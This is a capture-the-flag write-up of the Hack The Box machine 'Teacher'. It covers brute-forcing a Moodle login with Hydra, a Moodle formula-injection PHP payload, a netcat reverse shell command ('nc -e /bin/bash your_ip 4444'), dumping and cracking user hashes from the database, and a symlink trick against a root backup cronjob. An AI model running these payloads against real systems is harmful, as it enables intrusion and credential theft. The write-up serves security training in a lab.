







# Teacher {align=center}


__URL__: https://www.hackthebox.eu/home/machines/profile/165

__Machine IP__: 10.10.10.153

__DATE__ : 19/04/2019

__START TIME__: 10:52 PM

Just came to know that this machine is going to retire soon so I am just going to try this one out.

***

`NMAP`
--------



Okay so basic scan shows that there isn't anything unusual port open.
It's a basic website with nothing fancy happening.

Let's see what `dirsearch` finds out.

***

`DIRSEARCH`
-------------



Hmmm....so there are some basic stuff for the website like images and manual. But the thing that attract attention is `moodle`.

***

Looking into moodle, we had no options to use `guest` account or to login with `credentials` which we don't have right now.

Using `Guest` account we can't get much information since we are blasted with `Guests cannot access user profiles. Log in with a full user account to continue.` error every time we try to see anything on moodle.

That means we need start our hunt for the credentials.

After spending sometime on the website I noticed that the `gallery.html` had images but one of the image is messed.


Look in the top left, the image is not properly rendered. My CTF exprience says either the image is actually not image but a file with some `base64` in it or the header of the image must be messed.

Visiting `http://10.10.10.153/images/5.png` and saving the image gives us a text file.

Well it's neither base64 nor the messed up headers, it's simple plain text

```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

So this tells us the `username` is `Giovanni` and half password being `Th4C00lTheacha`. Well now we need to find the complete password.
For some reason I tried to find this password in the `rockyou` password list but obviously couldn't find the match.

After spending sometime on the website I realized that I am a fool :stuck_out_tongue_closed_eyes: because the note says that only a single character is missing so why are we even bothering to find the password on the website, let's just brute force it meaning it's time to bring out `Hydra`.

But the problem is that hydra needs a word list and since we need only single char bruteforce we'll have to make our own wordist.

I wrote a small script in python to generate the [wordlist](wordlist.txt)

```python
from string import printable
from string import punctuation

wordlist = "~/HTB/Teacher/wordlist.txt"
with open(wordlist, 'w') as f:
    for i in printable:
        f.write(i)
        f.write("\n")
    for i in punctuation:
        f.write(i)
        f.write("\n")

```

-------------------------------------------------------------------------------

#### Hydra


Now let's use that in hydra

```bash
hydra -l Giovanni -P /List/ 10.10.10.153 http-post-form "/moodle/login/index.php:username=^USER^&password=Th4C00lTheacha^PASS^:Invalid login, please try again" -Vv
```

Here's what this command broken down:

```
-l - login as user Giovanni

-P - use a Password file, the one we made and called it wordlist.txt

http-post-form - A Post form is essentially just a form that we submit to a website, like a login screen, shopping cart, etc.

"/moodle/login/index.php" - The location of the actual login page in your browser’s address bar.

username=^USER^&password=Th4C00lTheacha^PASS^ - Use the username we supplied at the beginning, then the password we supplied with the file. Since we know most of it, we can just add the ^PASS^ segment to the end of the line

:Invalid login, please try again - The message we see on our screen that indicates failure to log in. Hydra needs to know when it has failed.

-Vv - Enable Verbose level 2, this means we want a lot of information to be played back

```

Hydra found the password to be `Th4C00lTheacha#` so now we have both the username and the password
```
username = Giovanni
password = Th4C00lTheacha#
```

Using those credentials we are in the `Giovanni chatta` account.

<kbd></kbd>

***
***

Reverse Shell
--------------


Now we need to find something(some page) that would let us either run our code or let us make change to existing pages, this will make sure that we can execute our `Reverse shell` code.

I simply googled `moodle exploit` and the first link I found was this(https://blog.ripstech.com/2018/moodle-remote-code-execution/).And this is the exact thing we need.

So basically we need to edit a quiz with a simple math calculated formula.
Something like

```php
/*{x}{a*/`$_GET[0]`/*(1)//}{a*/`$_GET[0]`/*({x})//}*/
```


You can fill anything in the `Question name` and `Question text`.
Save it and click `Next page` button without changing anything.

Then on next page you need to add `&0=(nc -e /bin/bash your_ip 4444)` in the end or the URL

**Here `your_ip` is your ip address. The one that you'll use for reverse shell.**

So basically the complete URL will become

```
http://10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=10&wizardnow=datasetitems&cmid=7&0=(nc -e /bin/bash your_ip 4444)
```

Before running this setup a netcat listener on port 4444 that can be done using the command

```bash
nc -nlvp 4444
```
The moment you enter that URL, you'll get the connection from the machine.

-------------------------------------------------------------------------------

-------------------------------------------------------------------------------

Own User
------
Using command like `whoami` you can see that that we are `www-data` and We are in `/var/www/html/moodle/question` directory.

We need to own user(`Giovanni`). Looking around in `/var/www/html/moodle` we can see `config.php`


We can see the password(`Welkom1!`) for DB is present, we can use that to see the content of DB also we know the DB type i.e `mariadb`



We first select `database` and then use `show tables` query to see all the tables present in the selected DB.

Above query gave us lot of tables but scrolling down I found an interesting one called `mdl_user`



Using `SELECT username, password FROM mdl_user` query we can get the content of `mdl_user`



And we can see that these are hashes for the users and only `Giovannibak` is in `MD5` format. Using https://hashkiller.co.uk/Cracker we can crack that(`7a860966115182402ed06375cf0a22af`) md5 hash.



Now that we have the password and we can `ssh` into the machine.

But wait... we don't have `SSH` port open on that machine right?! so how are we going to login into `giovanni's` account?

Well I wasted a lot of time looking for a way to sign in, even did a 23 min full port scan and found nothing.

I decided to ask my fellow `OTA` members about this and Thanks to __@r00k__ for reminding me that there's a command in linux which can help us switch user
:man_facepalming:️

I spawn the TTY shell and switched the user.


Now simply you can go to the `/home/giovanni` directory and `cat` the `user.txt` file.

```bash
giovanni@teacher:~$ cat user.txt
cat user.txt
fa9ae187462530e84*********
giovanni@teacher:~$
```

-------------------------------------------------------------------------------

-------------------------------------------------------------------------------

Priv Escalation
----------------

For some reason I started looking for ways to use `LINENUM` or something on this machine but couldn't find a way to do so.
Then I decided to just look around manually I found out that there were some `backup` tar file in the `/home/giovanni/work/tmp` folder.

Hmmm. let's see when was this backup file created.


To my surprise this file isn't old, instead this is created like in every 60 seconds that means there's some `cronjob` running that will be handling the backup process.
Another interesting thing to notice is that these file have `GID` of `root`.

We know it's backing up the `courses`(by name of backup file) files so what if we create a symbolic link to `root's` directory, backup process will backup the root directory giving us all the content of root.



Now go to `courses.bak` directory you created and you'll find the `root.txt` file in there.


__END DATE__: 20/04/2019

__END TIME__: 12:37 PM


[^1]: **The script used for backing up the courses folder can be found in /usr/bin folder by the name of backup.sh**

